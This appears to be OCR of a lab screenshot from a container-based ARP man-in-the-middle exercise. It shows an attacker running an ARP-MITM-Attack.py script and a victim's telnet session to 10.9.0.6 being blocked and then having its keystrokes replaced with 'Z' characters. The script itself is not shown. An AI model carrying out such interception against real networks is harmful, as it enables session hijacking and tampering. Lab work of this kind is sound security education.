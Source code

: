```
	net.ipv4.ip_forward = 0
root@M-10.9.0.105:/# python3 /tmp/ARP-MITM-Attack.py
	.
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
	...

// Victim A Container
seed@VM> docksh A-10.9.0.5
// Before Attack
root@M-10.9.0.105:/# telnet 10.9.0.6
	Trying 10.9.0.6...
	Connected to 10.9.0.6.
	Escape character is '^]'.
	Ubuntu 20.04.1 LTS
	bd725fd9c4b6 login: root
	Password: 
	Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	This system has been minimized by removing packages and content that are
	not required on a system that users do not log into.

	To restore this content, you can run the 'unminimize' command.
	Last login: Sun May 11 06:49:52 UTC 2025 from 10.9.0.1 on pts/3
	root@bd725fd9c4b6:~# Testing Input
	root@bd725fd9c4b6:~#
// After sysctl net.ipv4.ip_forward=0
// No inputs are showing for Victim A
	root@bd725fd9c4b6:~#
// After Attack
	root@bd725fd9c4b6:~# ZZZZZZZZZZZZ
```